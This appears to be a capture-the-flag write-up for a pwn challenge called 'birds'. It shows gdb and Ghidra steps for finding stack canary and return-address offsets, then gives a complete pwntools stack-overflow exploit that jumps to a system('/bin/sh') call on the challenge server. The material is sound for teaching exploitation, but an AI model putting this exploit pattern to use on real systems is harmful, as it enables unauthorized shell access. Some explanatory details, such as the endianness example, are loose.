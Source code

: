 \##### pwn challenge  
Required Tools:   
\- checksec  
\- gdb debugger  
\- Linux operating system or Windows Subsystem for Linux (WSL)  
\- pwntools  
  
For this challenge, all that we need to do is find the distance between the buffer, the canary, and the return address at the end of main. After that, we just need to understand pwntools, how stack memory works, and how assembly works, and we can write a quick exploit script in python to get shell access to the remote server and print the flag.  
  
\### 1.  Finding all of our needed offsets  
\- We will use gdb to debug the \*\*birds\*\* executable. We will set two breakpoints. One at the instruction that takes place right after the buffer is filled, and another right on the RET instruction.  
\- Because this program is so simple you may be able to tell where to place both of these breakpoints by running the command \*\*disas main\*\*   
!\[\[main disassembly.png\]\]  
  
We can go ahead and place our breakpoints  at the RET instruction, and at the cmpl assembly instruction  
\`\`\`  
(gdb) b \*0x40125d  
Breakpoint 1 at 0x40125d                                                                                                                                 
(gdb) b \*0x401285  
Breakpoint 2 at 0x401285   
\`\`\`  
  
If you want to make sure you are understanding correctly and are placing your breakpoints at the right spot, you can open up the executable in ghidra or IDA pro and compare memory addresses with their places in the decompiled C code.  
  
After analyzing the executable, we find \*\*main\*\* in the symbol tree under functions. We can see that, although gdb and Ghidra disassembled the birds executable a little differently, that we have the correct position for both the start of the if statement, and the return address for main  
!\[\[ghidra-1.png\]\]  
  
While we are in gdb and ghidra, let us also figure out the address of the call to run the shell. We can skip straight to this address in memory to avoid having to call a gadget.  
  
Let's first disassemble win() in gdb, find the address we think is the system call to run the shell, and then verify we are correct with ghidra  
 !\[\[win disassembly.png\]\]  
It appears that the system call in \*\*win\*\* happens at 0x4011e6 in memory. And we can verify this in ghidra by finding \*\*win\*\* in the Symbol Tree  
!\[\[win breakpoint.png\]\]  
  
\*\*WATCH OUT!\*\*  
  
If we assumed that this memory address is where we should jump to in order to execute our shell system call, we would be mistaken! We have to remember that function calls require setup in assembly. The system function call requires an argument  (a command). Recall that in linux x86-64 assembly, RDI is a functions first argument, followed by RSI, RDX , RCX, and so on. This means that RDI must be filled with the system command '/bin/sh' before the system call, otherwise the function call will fail or behave unpredictably.   
  
From looking at ghidra's visual debugger, we can see that inside of the IF statement there are 2 lines of preparation before the system call is made. This means we should override main's return address with \*\*0x4011dc\*\* , which will bring us right to our shell system call.  
!\[\[Assembly Preparation.png\]\]  
  
Ok, so now it's time to run birds with the breakpoints we have set.   
1\. On our first breakpoint, we are trying to determine the distance between the buffer and the canary  
2\. On our second breakpoint, we are trying to find the return address of main, so that we can find the distance between the canary and the return address.  
  
When we run birds in gdb, we are prompted to fill the buffer. Go ahead and fill the buffer with 64 characters of any kind. Each character is a byte, that's why the buffer size and the character count is the same. In my debugging session I put in 64 A's.  
  
Feel free to copy/paste  
  
\`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
  
Once you press enter, you will be stopped at our first breakpoint.   
  
At this breakpoint we want to examine the stack to see where the buffer ends and the canary begins. To inspect the stack, run the below command:  
\*\*x/127wx $rsp\*\*  
!\[\[stack-screenshot.png\]\]  
\- Lets break down the above GDB command:  
    - x/ -> examine -> used to inspect memory  
    - 128 -> Specifies the number of units to examine, in this case, 128 units  
    - w -> Stands for "word", which means each unit is 4 bytes / 32 bits  
    - x -> Specifies the format, which in this case is hexadecimal  
    - $rsp Refers to the stack pointer register  
    - All of the A's here display as 0x41, because the ASCII representation of A is 0x41 in hexadecimal (65 in decimal)  
  
Since each group of data displayed here is 4 bytes, we can tell that there are \*\*12 bytes of data\*\* in between the buffer and the canary  
  
Let's keep this screenshot in mind and continue to the next breakpoint. We can continue by typing \*\*c\*\*  
  
Once we break at the RET instruction, all we have to do is step one instruction forward and find the contents of RIP. Recall that RIP is the instruction pointer. Because we broke right before RET, if we step one instruction forward with the command \*\*stepi\*\*, the next instruction will be where we are returning to, AKA the return address of main.  
  
If we run the command \*\*info stack frame\*\*, we can find the contents of RIP , and try and find this address on the stack that we took a screenshot of before.  
!\[\[RIP Contents.png\]\]  
  
We found that the return address is 8 bytes away from the canary!  
  
!\[\[stack-screenshot-Highlights.png\]\]  
  
We now know everything we need in order to write our pwntools script.  
  
We can take advantage of pwntools p32() and p64() functions to add our canary and return address data to the payload, as the data needs to be changed from big endian to little endian format in order for the CPU to read it properly.  
  
pwntools script:  
  
\`\`\`  
from pwn import \*  
  
\# -- PAYLOAD CREATION -- #  
payload = b"A"\*64  
payload += b"B" \* 12  
payload += p32(0xDEADBEEF)  
#payload += b"\\xef\\xbe\\xad\\xde" <- what the canary ends up as  
  
payload += b"C" \* 8  
payload+= p64(0x00000000004011dc)  
#payload += b"\\xdc\\x11\\x40\\x00\\x00\\x00\\x00\\x00" <- what the ret addr ends up as  
  
print(payload)  
  
\# ---------------------- #  
  
  
\# EXECUTABLE CONNECTION #  
  
\# If you are connecting to a local process, use the below  
  
#p = process('./birds')  
#p.sendline(payload)  
#p.interactive()  
  
\# If you are connecting to a remote server, use the below  
  
target\_host = "tjc.tf"  
target\_port = 31625  
  
conn = remote(target\_host, target\_port)  
conn.recvuntil("wrong!\\n")  
conn.sendline(payload)  
conn.interactive()  
  
\# --------------------- #  
\`\`\`  
  
Explanation of big -> little endian conversion  
  
Recall that in big endian format, numbers to the left are more significant than numbers on the right. Humans use big endian number formatting.  
  
In little endian format, numbers to the right are more significant than numbers to the left.  
  
For example, consider the big endian number 123. In little endian, that number would be written as 321. But they refer to the same value.  
  
gdb converts stack memory from little endian to big endian for readability purposes. But when we perform our buffer overflow attack, we have to make sure the data ends up on the stack in little endian format.  
  
However, each character/byte is represented with two hexidecimal digits. These two digits don't change order. !\[\[big-little-endian.png\]\]  
  
Putting the connection in interactive mode allows the user to run shell commands.#
